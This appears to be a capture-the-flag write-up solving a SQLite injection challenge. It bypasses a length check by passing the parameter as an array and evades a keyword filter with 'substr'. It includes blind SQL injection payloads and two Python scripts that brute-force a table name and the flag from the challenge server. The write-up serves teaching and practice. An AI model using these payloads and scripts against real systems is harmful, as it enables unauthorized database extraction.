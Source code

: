 # Challenge link
URL:      [http://45.122.249.68:20020/](http://45.122.249.68:20020/) (maybe the server was shut down)

# Challenge description
Recon carefully so as not to miss anything

# Challenge source file
URL: [https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing](https://drive.google.com/file/d/1n_xX6Heaqq9uI-MBkeR81FcCN6J07wSU/view?usp=sharing)

# Difficulty
Not easy

# Author
dcthinh

# Approach
- SQL injection is a simple but dangerous web vulnerability so every CTF challenge which I have attended has at least one. At the time I saw the challenge's name, I realized that it would be SQLi.
- When I connected to the website, all I saw was just a simple page:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/20954e6b-56c0-4cfb-96e2-a8e09c0630c6)

- I tried to click on the *Home* and *About* buttons but nothing happened. Let's try to read the source:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d38dc2a3-7d6d-4d51-93ea-37cf6012325c)

- I still see nothing there. It's time to read the source code.
- In *app.js*, I saw that they used the SQLite3 db. There's a table named API, and the flag table has a format name: "flag_" + an UUIDv4 string. More important, there is a hidden page which I found when reading this piece of code:
  ```
  app.get('/search', (req, res) => {
      const { name } = req.query;
      const Filterduidui = /(union|or|substring|substrs|if|case|=|when|then|join|load_extension|likely|unhex|\|\|)/i;
      if (!name) {
          return res.redirect('/search?name=1');
      }
  ```
- They filtered some keywords.
- Let's navigate the hidden site:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/91332e12-a283-4b6c-b2af-603f15a035d1)
  
- It is just a simple joke dispenser. According to the source code, it has 6. But it's not the problem. We need to take the flag.
- Because it is an SQLi challenge, I also tried to input something like *' and 1 is 1--* into the *name* parameter. A message appeared:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d88bfe0f-1a37-4bc0-8d4e-25b899d95200)

- That means, the input of *name* is too long, because of this:
  ```
  if (name.length > 6) {
        return res.status(400).send({ err: 'U r hacker?' });
    }
  ```
- But this site is written in JavaScript. Since the whole program did not check if the *name* parameter is a string, *what would it be if I turned it into an array?* Let's check:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/9d8f109e-c0b2-4812-9ba7-be31cc60f347)

- It worked!!! If you don't know why it worked, the reason is JavaScript determines the length of an array is the total number of elements inside it. Now I can input an arbitrary length payload.

- I tried to input something weird into the *name* parameter. The joke disappeared immediately:
  ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/4594b0e9-ad9f-457b-83f8-0fce3510586b)
  
- At that time, I immediately claimed that I should use the Blind SQL injection technique, due to the message appearance behavior of the site. But the keywords *substring* and *substrs* were blocked.
- After an hour of thinking, I realized that SQLite uses *substr* keyword, not *substring* or *substrs*. This - is - the - keyword - to - solve - this - challenge.

# Problem-solving
  ## Database name length brute-forcing
  - I don't know the flag table name, so I have to find it. The name is randomly generated by this function:
    ```
    const flagTable = `flag_${uuid.v4().replace(/-/g, '_')}`;
    ```
  - First, I wrote a payload to determine the length of the table name (for not being time-consuming). I use Burp Suite for convenience:
    ```
    1' AND (SELECT LENGTH(name) FROM sqlite_master WHERE type is 'table' AND name LIKE 'flag_%') is 1--
    ```
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/ef581b82-f55a-4fe1-ae23-52430745bed4)
  - It worked. It's time to brute-force. I set the Grep-Match to the string *"id":1* as the clue:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/109ae2c4-fdbc-4336-8c2e-1b3b6f716f41)

  - Setup done, now attack phase:
    ![image](https://github.com/NoSpaceAvailable/WannagameFreshman2023/assets/143888307/d6e047f5-89ec-4e9f-88a4-5913046709f4)

  - The result is 41. Since the *flag_* takes 5 characters, I have to find 36 other chars.
  - I write a simple Python code for this purpose:
    ```
    import requests

    char_set = '_1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM'
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = 'flag_'
    print(flag)

    for i in range(6, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(name, {i}, 1) FROM sqlite_master WHERE type IS 'table' AND name LIKE 'flag_%') IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - The flag table name is: flag_c1abd148_acae_40be_a953_eae333f90da0
  - The remaining work is quite simple. This Python code is used to find the flag:
    ```
    import requests

    char_set = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789	 !}_{\"\#$%&'()*+,-./:;?@[\]^`|~"
    target = 'http://45.122.249.68:20020/search?name[]='
    flag = ''

    for i in range(1, 100):
      for j in char_set:
        r = requests.get(url= target + f"1' AND (SELECT SUBSTR(flag, {i}, 1) FROM flag_c1abd148_acae_40be_a953_eae333f90da0) IS '{j}'--")
        if '"id":1' in r.text:
            flag += j
            print(flag)
            break
    ```
  - Flag: W1{I_th1nk_u_r_so_lite^_^}


